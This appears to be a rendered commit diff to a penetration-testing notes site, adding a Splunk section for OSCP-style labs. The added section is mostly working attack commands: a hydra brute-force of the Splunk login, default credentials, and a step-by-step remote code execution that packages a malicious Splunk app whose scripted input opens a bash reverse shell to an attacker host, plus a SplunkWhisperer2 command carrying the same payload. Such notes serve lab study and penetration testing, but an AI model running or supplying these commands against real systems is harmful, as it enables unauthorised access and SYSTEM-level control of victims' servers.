

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from recon/service_enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 11322 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
service: add Splunk exploitation (Universal Forwarder RCE via malicious app)
- Splunk ports: 8000 (web UI) and 8089 (REST API / Forwarder)
- Default credential check and brute force
- Universal Forwarder RCE: scripted input via malicious app deployment
- SplunkWhisperer2 automated method
- Note: UF often runs as SYSTEM on Windows (high-value target)

````diff
--- a/recon/service_enumeration.md
+++ b/recon/service_enumeration.md
@@ -521,6 +521,59 @@
 
 ---
 
+## 8000 / 8089 — Splunk
+
+- **8000** — Splunk Web UI (management console)
+- **8089** — Splunk REST API / Universal Forwarder management port
+
+```bash
+# Check version and auth
+curl -k https://$IP:8089/services/server/info | grep -i version
+
+# Default creds: admin:changeme
+# Brute force web login
+hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-form-post \
+  "/en-US/account/login:username=^USER^&password=^PASS^&return_to=:Invalid"
+```
+
+### Universal Forwarder → RCE (Splunk 8089)
+
+If you have Splunk admin creds (or default `admin:changeme`):
+
+```bash
+# SplunkWhisperer2 — install malicious app that runs OS commands
+# PT ONLY: https://github.com/cnotin/SplunkWhisperer2
+
+# Method: create and deploy a Splunk app with a scripted input
+# 1. On LHOST: craft malicious app dir structure
+mkdir -p /tmp/evil_app/bin/
+echo 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1' > /tmp/evil_app/bin/shell.sh
+chmod +x /tmp/evil_app/bin/shell.sh
+
+# 2. Create inputs.conf
+mkdir -p /tmp/evil_app/default/
+cat > /tmp/evil_app/default/inputs.conf << EOF
+[script://./bin/shell.sh]
+disabled = false
+interval = 10
+sourcetype = shell
+EOF
+
+# 3. Package and upload
+cd /tmp && tar czf evil_app.tar.gz evil_app/
+# Upload via Splunk web: Apps → Install app from file → evil_app.tar.gz
+# Or via SplunkWhisperer2:
+python3 PySplunkWhisperer2_remote.py \
+  --host $IP --port 8089 \
+  --username admin --password changeme \
+  --payload "bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'" \
+  --lhost $LHOST --lport 9999
+```
+
+> Universal Forwarder running as SYSTEM on Windows — one of the highest-value RCEs in OSCP labs.
+
+---
+
 ## 5900 — VNC
 
 ```bash
````
